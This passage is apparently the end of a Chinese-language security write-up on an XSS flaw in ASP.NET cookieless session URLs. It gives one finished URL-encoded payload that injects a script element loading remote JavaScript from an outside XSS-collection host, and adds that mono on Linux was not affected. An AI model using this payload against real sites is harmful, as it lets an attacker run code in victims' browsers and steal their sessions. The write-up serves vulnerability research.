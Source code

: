![image-20200323022227594](image-20200323022227594.png)

最后是完成的payload

```
https://localhost:44345/(A(%22onerror=%22js=document.createElement%60script%60;js.src=%60$%7BString.fromCharCode%6047%60%7D$%7BString.fromCharCode%6047%60%7Dxsshs.cn$%7BString.fromCharCode%6047%60%7DQbLA%60;headEl=document.getElementsByTagName%60head%60[0];new%20Function%60X$%7Bdocument.location.hash.substr%601%60%7DX%60%22))/xss.aspx#headEl.appendChild(js)
```

![image-20200323024002741](image-20200323024002741.png)

OK，大功告成。

备注:之前看到linux下也可以通过mono运行aspx程序，测试了下，并没有这个漏洞。

